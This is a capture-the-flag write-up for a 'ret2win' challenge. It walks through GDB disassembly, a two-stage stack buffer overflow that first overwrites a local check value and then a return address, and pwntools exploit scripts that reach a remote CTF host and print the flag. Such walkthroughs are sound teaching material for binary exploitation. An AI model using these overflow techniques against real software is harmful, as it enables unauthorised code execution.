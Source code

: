 # ret2win

The goal of this challenge is to redirect code flow to the `win()` function.  Opening up the binary in GDB, we can see some other interesting functions that we have.
```
0x0000000000400607  win
0x0000000000400652  part2
0x0000000000400699  part1
0x00000000004006ee  main
```

Let's disassemble them and see what's going on:

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x00000000004006ee <+0>:	push   rbp
   0x00000000004006ef <+1>:	mov    rbp,rsp
   0x00000000004006f2 <+4>:	mov    eax,0x0
   0x00000000004006f7 <+9>:	call   0x400699 <part1>
   0x00000000004006fc <+14>:	mov    eax,0x0
   0x0000000000400701 <+19>:	pop    rbp
   0x0000000000400702 <+20>:	ret
End of assembler dump.
gdb-peda$ disass part1
Dump of assembler code for function part1:
   0x0000000000400699 <+0>:	push   rbp
   0x000000000040069a <+1>:	mov    rbp,rsp
   0x000000000040069d <+4>:	sub    rsp,0x20
   0x00000000004006a1 <+8>:	mov    QWORD PTR [rbp-0xc],0x0
   0x00000000004006a9 <+16>:	lea    rdi,[rip+0x1a0]        # 0x400850
   0x00000000004006b0 <+23>:	call   0x4004e0 <puts@plt>
   0x00000000004006b5 <+28>:	mov    rdx,QWORD PTR [rip+0x200994]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x00000000004006bc <+35>:	lea    rax,[rbp-0x20]
   0x00000000004006c0 <+39>:	mov    esi,0x20
   0x00000000004006c5 <+44>:	mov    rdi,rax
   0x00000000004006c8 <+47>:	call   0x400500 <fgets@plt>
   0x00000000004006cd <+52>:	mov    rdx,QWORD PTR [rbp-0xc]
   0x00000000004006d1 <+56>:	movabs rax,0xbaddecafbeefcafe
   0x00000000004006db <+66>:	cmp    rdx,rax
   0x00000000004006de <+69>:	jne    0x4006eb <part1+82>
   0x00000000004006e0 <+71>:	mov    eax,0x0
   0x00000000004006e5 <+76>:	call   0x400652 <part2>
   0x00000000004006ea <+81>:	nop
   0x00000000004006eb <+82>:	nop
   0x00000000004006ec <+83>:	leave
   0x00000000004006ed <+84>:	ret
End of assembler dump.
```

So all `main` does it seems is to just call `part1()`.  And in that function it compares some value on the stack to the value `0xbaddecafbeefcafe`, and jumps to `part2()` if they are equal.  We can see the value is located at `$rbp-0xc`, and that the max buffer size is `0x20` bytes. So all we need to do is input `0x20 - 0x0c = 0x14` bytes, or 20 bytes, followed by `0xbaddecafbeefcafe`.

```python
from pwn import *

io = process("./ret2win")

io.recvuntil("overwrite data")
payload_1 = b"A" * 20
payload_1 += p64(0xbaddecafbeefcafe)

io.sendline(payload_1)

io.interactive()
```

And running it we are able to call `part2()`!

```
[+] Starting local process './ret2win': pid 2557
[*] Switching to interactive mode

Well done!
That was the same vuln as last week though, we probably shouldn't give you a flag for that
Reply "yes" to awknowledge that you don't deserve any points
$ no
[*] Got EOF while reading in interactive
```

Let's now take a look at the disassembly of `part2()`:


```
gdb-peda$ disass part2
Dump of assembler code for function part2:
   0x0000000000400652 <+0>:	push   rbp
   0x0000000000400653 <+1>:	mov    rbp,rsp
   0x0000000000400656 <+4>:	sub    rsp,0x20
   0x000000000040065a <+8>:	lea    rdi,[rip+0x13e]        # 0x40079f
   0x0000000000400661 <+15>:	call   0x4004e0 <puts@plt>
   0x0000000000400666 <+20>:	lea    rdi,[rip+0x143]        # 0x4007b0
   0x000000000040066d <+27>:	call   0x4004e0 <puts@plt>
   0x0000000000400672 <+32>:	lea    rdi,[rip+0x197]        # 0x400810
   0x0000000000400679 <+39>:	call   0x4004e0 <puts@plt>
   0x000000000040067e <+44>:	mov    rdx,QWORD PTR [rip+0x2009cb]        # 0x601050 <stdin@@GLIBC_2.2.5>
   0x0000000000400685 <+51>:	lea    rax,[rbp-0x20]
   0x0000000000400689 <+55>:	mov    esi,0x64
   0x000000000040068e <+60>:	mov    rdi,rax
   0x0000000000400691 <+63>:	call   0x400500 <fgets@plt>
   0x0000000000400696 <+68>:	nop
   0x0000000000400697 <+69>:	leave
   0x0000000000400698 <+70>:	ret
End of assembler dump.
gdb-peda$ break *0x0000000000400691
Breakpoint 1 at 0x400691
gdb-peda$ r < part1
```
I set a break point at the end so I can take a look at the stack frame.  `part1` is just a text file with the payload already in it.

```
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffdec0:
 rip = 0x400691 in part2; saved rip = 0x4006ea
 called by frame at 0x7fffffffdef0
 Arglist at 0x7fffffffdeb0, args:
 Locals at 0x7fffffffdeb0, Previous frame's sp is 0x7fffffffdec0
 Saved registers:
  rbp at 0x7fffffffdeb0, rip at 0x7fffffffdeb8
gdb-peda$ p 0xdeb8 - (0xdeb0 - 0x20)
$4 = 0x28
```

So now with this, we know the start of the buffer is at `$rbp - 0x20`. Subract that from `$rip` and we get how many bytes we need to fill before we overwrite the instruction pointer.

But what should we overwrite it with?  Well, we can give any address we want and it will jump to it!  So let's give it the address of the `win()` function. Recall that:

```
0x0000000000400607  win
```

So now we can build our final exploit:

```python
from pwn import *

#io = process("./ret2win")
io = remote('ctf.ropcity.com', 31337)

io.recvuntil("overwrite data")
payload_1 = b"A" * 20
payload_1 += p64(0xbaddecafbeefcafe)

f = open("part1", "wb")
f.write(payload_1)
f.close()

io.sendline(payload_1)
io.recvuntil("any points")

payload_2 = b"A" * 40
payload_2 += p64(0x0000000000400607)

io.sendline(payload_2)

io.interactive()
```

And running it we get the flag!

```
[+] Starting local process './ret2win': pid 115498
Reply "yes" if you remember how to overwrite data

[*] Switching to interactive mode
Well done!
That was the same vuln as last week though, we probably shouldn't give you a flag for that
Reply "yes" to awknowledge that you don't deserve any points
osu{$oRRY_y0U_d0_de$Erv3_7his}
```
